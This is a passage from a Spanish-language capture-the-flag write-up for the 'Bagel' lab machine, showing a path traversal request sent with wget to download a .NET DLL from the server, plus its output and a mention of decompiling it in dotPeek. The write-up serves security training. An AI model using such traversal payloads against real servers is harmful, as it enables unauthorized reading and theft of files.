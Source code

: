 ## Decompiling .NET dll w/dotPeek
El comando utilizado para ejecutar el proceso del WebSocket ha sido:
```console
dotnet /opt/bagel/bin/Debug/net6.0/bagel.dll
```

Ahora podemos descargarnos este `.dll`
```console
wget http://bagel.htb:8000/\?page\=../../../../../../../../opt/bagel/bin/Debug/net6.0/bagel.dll
--2024-12-17 16:09:06--  http://bagel.htb:8000/?page=../../../../../../../../opt/bagel/bin/Debug/net6.0/bagel.dll
Resolving bagel.htb (bagel.htb)... 10.129.228.247
Connecting to bagel.htb (bagel.htb)|10.129.228.247|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10752 (10K) [application/octet-stream]
Saving to: ‘index.html?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fopt%2Fbagel%2Fbin%2FDebug%2Fnet6.0%2Fbagel.dll’

index.html?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fop 100%[======================================================================================================================================>]  10.50K  --.-KB/s    in 0s

2024-12-17 16:09:06 (28.8 MB/s) - ‘index.html?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fopt%2Fbagel%2Fbin%2FDebug%2Fnet6.0%2Fbagel.dll’ saved [10752/10752]
```

Lo renombramos.
```console
mv index.html\?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fopt%2Fbagel%2Fbin%2FDebug%2Fnet6.0%2Fbagel.dll bagel.dll
```

Ahora podemos comprobar que efectivamente este es un archivo `.dll` que utiliza .NET.
```console
file bagel.dll
bagel.dll: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Esto significa que podemos utilizar `dotPeek` para descompilar el DLL y ver que contiene.

Nos podemos compartir el DLL a nuestra máquina con `impacket-smbserver`, una vez abierto en `dotPeek` podemos leer el código fuente de la aplicación.